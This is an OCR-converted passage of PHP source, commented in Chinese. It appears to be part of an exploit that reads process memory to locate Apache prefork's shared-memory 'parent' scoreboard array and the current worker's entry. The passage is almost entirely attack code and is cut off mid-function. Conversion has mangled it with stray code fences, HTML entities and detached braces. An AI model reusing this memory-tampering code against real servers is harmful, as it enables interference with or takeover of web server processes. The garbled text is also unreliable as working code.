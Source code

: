  $start_addr_str =  substr($line,0,$addr_len);
        $end_addr_str = substr($line,$addr_len+1,$addr_len);

        $result[$result_index][0] = hexdec($start_addr_str);
        $result[$result_index][1] = hexdec($end_addr_str);
        $result[$result_index][2] = substr($line,$addr_len*2+2,4);
        $result_index++;
    }
}
fclose($file);

return $result; 
```

}

function locate_parent_arr_addr()//获取共享内存中，parent数组的首地址

{

$my_pid = getmypid();

$shm_region = get_mem_region("/dev/zero");

if(!count($shm_region))

return 0;

```
//parent数组项的大小是，每个0x20个字节
//pid_t在我环境中，大小4字节
$pid_t_size = 4;
$parent_size = 0x24;

//只检查共享内存的前0x1000字节(4KB)
for($i = 0;$i&lt;0x1000;$i++){
    $hit_count = 0;
    for($j = 0;$j&lt;5;$j++){//循环次数，请参考httpd-mpm.conf中的prefork的MinSpareServers
        $pid = read_mem_dword($shm_region[0][0]+ $i + $j*$parent_size);
        if( $my_pid - 20 &lt; $pid &amp;&amp; $pid &lt; $my_pid+20){//因为prefork中，进程的pid是紧挨的，我们可以通过这个来判断是否是parent数组的首地址
            $hit_count++;    
        }
    }
    if($hit_count == 5){
        return $shm_region[0][0]+$i;
    }
}

return 0; 
```

}

function locate_self_parent_struct_addr()//获取共享内存中，当前parent的首地址

{

$my_pid = getmypid();

$shm_region = get_mem_region("/dev/zero");

if(!count($shm_region))

return 0;

```